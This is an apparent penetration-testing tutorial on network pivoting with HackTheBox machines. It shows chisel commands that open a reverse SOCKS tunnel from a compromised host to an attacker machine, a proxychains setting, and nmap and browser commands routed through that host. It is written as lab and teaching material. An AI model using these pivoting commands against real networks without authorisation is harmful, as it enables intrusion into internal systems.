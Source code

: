 ### Network Pivoting

<p align="center">
<img src="https://miro.medium.com/max/700/1*exRPwGYJpGv6eESldShwzQ.png"/><br />
Image from Vickie Li's <a href="https://medium.com/swlh/proxying-like-a-pro-cccdc177b081">post</a></p>

**Summary:**
  - Network pivoting is the process of accessing an internal machine with the help of the compromised machine.
  - Connection lies between the compromised machine and the internal machine, and no direct connection will be available from the attacker machine to the internal machine
  - So in order to access the internal machine, we will make use of the compromised machine which has access to the internal machine

**Dynamic Port Forwarding:**
```bash
Dynamic Port Forwarding is the third major method of port redirection with SSH. 
Where as previously both local and remote port forwarding allowed interaction with a single port, 
dynamic allows a full range of TCP communication across a range of ports. 
The tool proxychains is also used to force any program you wish to use through the dynamic proxy.
```

**Requirements:** 
- To directly access the internal machine from the attacker machine, we can make the compromised machine as a proxy server and make all our requests to go via the compromised server to the internal machine
- To perform this we need an `ssh / chisel service` and `proxychains` in attacker machine
- If chisel is not available in the target machine, [chisel](https://github.com/jpillora/chisel/releases/tag/v1.7.4) release page

**Procedure:**
- Transfer the `chisel` binary to the compromised machine
- On the Attacker machine:
```bash
# attacker IP: 192.168.1.1
# syntax: ./chisel server -p {port} --reverse
./chisel server -p 1337 --reverse
```
- On the compromised machine
```bash
# syntax: chisel client {attacker IP}:{port on chisel server} R:socks
./chisel client 192.168.1.1:1337 R:socks # on a debian based machine
chisel.exe client 192.168.1.1:1337 R:socks # on a windows machine
```
- On successful connection, the chisel server running on the attacker machine will pop the message
```bash
2021/01/15 17:11:47 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```
- The message implies that the connection is made via a socks proxy on the port `1080` which is a default proxy for the chisel
- Add the following line in the `/etc/proxychains.conf`
```bash
socks5 127.0.0.1 1080
```
- Now Whenever a command is executed in the attacker machine with mentioning the proxychains, 
```bash
kali -> proxychains:1080 -> compromised_machine:1080 -> request for accessing from internal_machine -> internal_machine:80
```

<p align="center">
<img src="https://github.com/cyberwr3nch/hackthebox/blob/master/scripts/files/Pivoting.jpg"/> <br />
Image by <a href="https://github.com/cyberwr3nch">cyberwr3nch</a></p>


**Syntax:**
```bash
# nmap port scan
proxychains nmap -p22,80,8080,21,443,445 -sT internal_machinesIP

# opening internal_machine webserver
proxychains firefox internal_machinesIP:80
```

### Live Example
- Machines used, bucket and Jewel from [htb](https://hackthebox.eu)

<p align="center">
<img src="https://github.com/cyberwr3nch/hackthebox/blob/master/scripts/files/pivoting-log.jpg"/> <br />
Image by <a href="https://github.com/cyberwr3nch">cyberwr3nch</a></p>

- Summary of the pivot

<p align="center">
<img src="https://github.com/cyberwr3nch/hackthebox/blob/master/scripts/files/pivot-summary.jpg"/> <br />
Image by <a href="https://github.com/cyberwr3nch">cyberwr3nch</a></p>

<h5>Thanks <a href="https://github.com/adithyan-ak">@adithyan-ak</a> for binding me in</h5>
